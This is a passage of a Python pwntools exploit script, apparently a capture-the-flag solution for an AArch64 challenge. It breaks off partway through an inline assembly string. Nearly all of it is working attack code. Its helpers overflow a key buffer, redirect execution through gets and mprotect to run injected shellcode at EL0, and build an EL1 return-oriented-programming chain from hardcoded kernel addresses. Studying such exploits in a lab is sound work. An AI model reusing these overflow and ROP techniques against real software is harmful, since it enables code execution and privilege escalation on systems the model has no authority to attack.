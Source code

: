 ```python
def make_shellcode(assembly: str) -> bytes:
    shellcode = asm(assembly)
    assert b"\n" not in shellcode
    return shellcode


def load_key(idx: int):
    p.sendlineafter(b"cmd> ", b"0")
    p.sendlineafter(b"index: ", str(idx).encode())


def save_key(idx: int, key: bytes):
    p.sendlineafter(b"cmd> ", b"1")
    p.sendlineafter(b"index: ", str(idx).encode())
    p.sendlineafter(b"key: ", key)


def el0_arbitrary_code_execute(assembly: str) -> None:
    pl = b"a" * 0x100
    pl += p64(el0_elf.symbols["gets"])
    pl += p64(el0_elf.symbols["gets"])
    save_key(1, pl)
    pl = b"a" * 0x120
    pl += make_shellcode(assembly)
    assert len(pl) <= 0x1000
    p.sendline(pl)

    pl = b"a" * (1 + 4)
    pl += b"\x00" * (0x100 - len(pl))
    pl += p64(el0_elf.symbols["main"] + 0x44)
    pl += p64(el0_elf.symbols["mprotect"])
    save_key(0x1000, pl)

    load_key(1)

    pl = b"a" * 0x100
    pl += p64(EL0_RET)
    pl += p64(el0_elf.symbols["gets"])
    pl += p64(DUMMY_VALUE)
    pl += p64(EL0_SFP_IN_RUN - 0x30)
    save_key(1, pl)
    pl = p64(EL0_STACK_LOW + 0x100)
    pl += p64(EL0_BUF + 0x120)
    p.sendline(pl)


def el1_return_oriented_programming(
    rop_chain: list[int], el0_additional_assembly: str = ""
) -> None:
    ROP_CHAIN_ADDR = 0xFFFFFFFFC0019C00
    EL1_SYSCALL_HANDLER_RET_ADDR = 0xFFFFFFFFC0019BB8

    rop_chain = b"".join([p64(gadget) for gadget in rop_chain])
    assert b"\n" not in rop_chain and len(rop_chain) <= 0x420

    el0_arbitrary_code_execute(
        f"""  
        mov x22, xzr;\n
        ldr x23, ={len(rop_chain)};\n
        ldr x24, ={ROP_CHAIN_ADDR};\n
        read_rop_chain:
            mov x0, 0;\n
            add x1, x24, x22;\n
```